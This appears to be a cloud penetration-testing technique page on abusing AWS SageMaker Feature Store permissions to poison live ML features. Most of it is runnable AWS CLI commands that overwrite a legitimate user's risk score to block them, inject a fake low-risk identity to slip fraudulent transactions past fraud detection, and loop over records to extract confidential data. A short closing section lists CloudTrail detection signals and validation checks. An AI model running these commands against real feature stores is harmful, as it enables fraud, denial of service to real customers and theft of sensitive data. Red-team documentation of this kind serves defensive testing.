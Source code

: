 # SageMaker Feature Store online store poisoning

Abuse `sagemaker:PutRecord` on a Feature Group with OnlineStore enabled to overwrite live feature values consumed by online inference. Combined with `sagemaker:GetRecord`, an attacker can read sensitive features and exfiltrate confidential ML data. This does not require access to models or endpoints, making it a direct data-layer attack.

## Requirements
- Permissions: `sagemaker:ListFeatureGroups`, `sagemaker:DescribeFeatureGroup`, `sagemaker:PutRecord`, `sagemaker:GetRecord`
- Target: Feature Group with OnlineStore enabled (typically backing real-time inference)
- Complexity: **LOW** - Simple AWS CLI commands, no model manipulation required

## Steps

### Reconnaissance

1) List Feature Groups with OnlineStore enabled
```bash
REGION=${REGION:-us-east-1}
aws sagemaker list-feature-groups \
  --region $REGION \
  --query "FeatureGroupSummaries[?OnlineStoreConfig!=null].[FeatureGroupName,CreationTime]" \
  --output table
```

2) Describe a target Feature Group to understand its schema
```bash
FG=<feature-group-name>
aws sagemaker describe-feature-group \
  --region $REGION \
  --feature-group-name "$FG"
```

Note the `RecordIdentifierFeatureName`, `EventTimeFeatureName`, and all feature definitions. These are required for crafting valid records.

### Attack Scenario 1: Data Poisoning (Overwrite Existing Records)

1) Read the current legitimate record
```bash
aws sagemaker-featurestore-runtime get-record \
  --region $REGION \
  --feature-group-name "$FG" \
  --record-identifier-value-as-string user-001
```

2) Poison the record with malicious values using inline `--record` parameter
```bash
NOW=$(date -u +%Y-%m-%dT%H:%M:%SZ)

# Example: Change risk_score from 0.15 to 0.99 to block a legitimate user
aws sagemaker-featurestore-runtime put-record \
  --region $REGION \
  --feature-group-name "$FG" \
  --record "[
    {\"FeatureName\": \"entity_id\", \"ValueAsString\": \"user-001\"},
    {\"FeatureName\": \"event_time\", \"ValueAsString\": \"$NOW\"},
    {\"FeatureName\": \"risk_score\", \"ValueAsString\": \"0.99\"},
    {\"FeatureName\": \"transaction_amount\", \"ValueAsString\": \"125.50\"},
    {\"FeatureName\": \"account_status\", \"ValueAsString\": \"POISONED\"}
  ]" \
  --target-stores OnlineStore
```

3) Verify the poisoned data
```bash
aws sagemaker-featurestore-runtime get-record \
  --region $REGION \
  --feature-group-name "$FG" \
  --record-identifier-value-as-string user-001
```

**Impact**: ML models consuming this feature will now see `risk_score=0.99` for a legitimate user, potentially blocking their transactions or services.

### Attack Scenario 2: Malicious Data Injection (Create Fraudulent Records)

Inject completely new records with manipulated features to evade security controls:

```bash
NOW=$(date -u +%Y-%m-%dT%H:%M:%SZ)

# Create fake user with artificially low risk to perform fraudulent transactions
aws sagemaker-featurestore-runtime put-record \
  --region $REGION \
  --feature-group-name "$FG" \
  --record "[
    {\"FeatureName\": \"entity_id\", \"ValueAsString\": \"user-999\"},
    {\"FeatureName\": \"event_time\", \"ValueAsString\": \"$NOW\"},
    {\"FeatureName\": \"risk_score\", \"ValueAsString\": \"0.01\"},
    {\"FeatureName\": \"transaction_amount\", \"ValueAsString\": \"999999.99\"},
    {\"FeatureName\": \"account_status\", \"ValueAsString\": \"approved\"}
  ]" \
  --target-stores OnlineStore
```

Verify the injection:
```bash
aws sagemaker-featurestore-runtime get-record \
  --region $REGION \
  --feature-group-name "$FG" \
  --record-identifier-value-as-string user-999
```

**Impact**: Attacker creates a fake identity with low risk score (0.01) that can perform high-value fraudulent transactions without triggering fraud detection.

### Attack Scenario 3: Sensitive Data Exfiltration

Read multiple records to extract confidential features and profile model behavior:

```bash
# Exfiltrate data for known users
for USER_ID in user-001 user-002 user-003 user-999; do
  echo "Exfiltrating data for ${USER_ID}:"
  aws sagemaker-featurestore-runtime get-record \
    --region $REGION \
    --feature-group-name "$FG" \
    --record-identifier-value-as-string ${USER_ID}
done
```

**Impact**: Confidential features (risk scores, transaction patterns, personal data) exposed to attacker.

### Testing/Demo Feature Group Creation (Optional)

If you need to create a test Feature Group:

```bash
REGION=${REGION:-us-east-1}
FG=$(aws sagemaker list-feature-groups --region $REGION --query "FeatureGroupSummaries[?OnlineStoreConfig!=null]|[0].FeatureGroupName" --output text)
if [ -z "$FG" -o "$FG" = "None" ]; then
  ACC=$(aws sts get-caller-identity --query Account --output text)
  FG=test-fg-$ACC-$(date +%s)
  ROLE_ARN=$(aws iam get-role --role-name AmazonSageMaker-ExecutionRole --query Role.Arn --output text 2>/dev/null || echo arn:aws:iam::$ACC:role/service-role/AmazonSageMaker-ExecutionRole)
  
  aws sagemaker create-feature-group \
    --region $REGION \
    --feature-group-name "$FG" \
    --record-identifier-feature-name entity_id \
    --event-time-feature-name event_time \
    --feature-definitions "[
      {\"FeatureName\":\"entity_id\",\"FeatureType\":\"String\"},
      {\"FeatureName\":\"event_time\",\"FeatureType\":\"String\"},
      {\"FeatureName\":\"risk_score\",\"FeatureType\":\"Fractional\"},
      {\"FeatureName\":\"transaction_amount\",\"FeatureType\":\"Fractional\"},
      {\"FeatureName\":\"account_status\",\"FeatureType\":\"String\"}
    ]" \
    --online-store-config "{\"EnableOnlineStore\":true}" \
    --role-arn "$ROLE_ARN"
  
  echo "Waiting for feature group to be in Created state..."
  for i in $(seq 1 40); do
    ST=$(aws sagemaker describe-feature-group --region $REGION --feature-group-name "$FG" --query FeatureGroupStatus --output text || true)
    echo "$ST"; [ "$ST" = "Created" ] && break; sleep 15
  done
fi

echo "Feature Group ready: $FG"
```


## Detection

Monitor CloudTrail for suspicious patterns:
- `PutRecord` events from unusual IAM principals or IP addresses
- High frequency `PutRecord` or `GetRecord` calls
- `PutRecord` with anomalous feature values (e.g., risk_score outside normal range)
- Bulk `GetRecord` operations indicating mass exfiltration
- Access outside normal business hours or from unexpected locations

Implement anomaly detection:
- Feature value validation (e.g., risk_score must be 0.0-1.0)
- Write pattern analysis (frequency, timing, source identity)
- Data drift detection (sudden changes in feature distributions)

## References
- [AWS SageMaker Feature Store Documentation](https://docs.aws.amazon.com/sagemaker/latest/dg/feature-store.html)
- [Feature Store Security Best Practices](https://docs.aws.amazon.com/sagemaker/latest/dg/feature-store-security.html)

